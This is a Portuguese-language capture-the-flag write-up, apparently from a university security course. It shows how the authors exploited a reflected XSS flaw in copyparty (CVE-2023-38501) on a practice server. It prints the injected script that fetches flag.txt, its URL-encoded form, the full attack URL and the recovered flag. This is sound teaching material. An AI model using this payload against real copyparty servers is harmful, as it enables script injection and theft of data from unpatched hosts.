







# CTF XSS

Este CTF foi realizado no servidor [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:4005/).

Após verificarmos que o ficheiro flag.txt não fornece acesso direto, mesmo estando descaradamente exposto no server, exploramos os outros ficheiros listados.

Deparámo-nos com o ficheiro SECURITY.md:

Acedemos ao repositório GitHub ( [https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh](https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh) ) onde uma vulnerabilidade copyparty estava descrita (CVE-2023-38501):

Desta forma, descobrimos que, para acedermos à flag via um ataque de XSS, teríamos que explorar esta vulnerabilidade, que permite que um script malicioso seja injetado no URL.

Usando este exemplo:

Sabemos então que antes de pôr o nosso script temos de pôr o seguinte url:

http://ctf-fsi.fe.up.pt:5007/?k304=y

Vamos, então, construir o script malicioso:

\<script\>  
fetch('/flag.txt')  
.then(response \=\>response.text())  
\</script\>

(Para saber que era preciso deixar duas linhas em branco fomos testando por tentativa e erro, testamos primeiro sem nenhuma, depois com uma e com duas já funcionou, cada nova linha é codificada com %0A . Isto depende de quantos espaços é que o servidor precisa para a separação entre o url e o código de javascript.)

Convertemos em URL:

(no site: [https://www.urlencoder.org/](https://www.urlencoder.org/) )

Observamos no resultado:

%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E

Juntamos com o ínicio:

[http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E](http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E)

Vimos parar a esta página.

Abrimos as ferramentas de desenvolvedor com f12 e vamos à tab de network.

Damos refresh à página:

Selecionamos superblyHiddenFlagDI79….:  

E colamos a resposta:

flag{youGotMeReallyGood}

Concluindo assim o CTF.
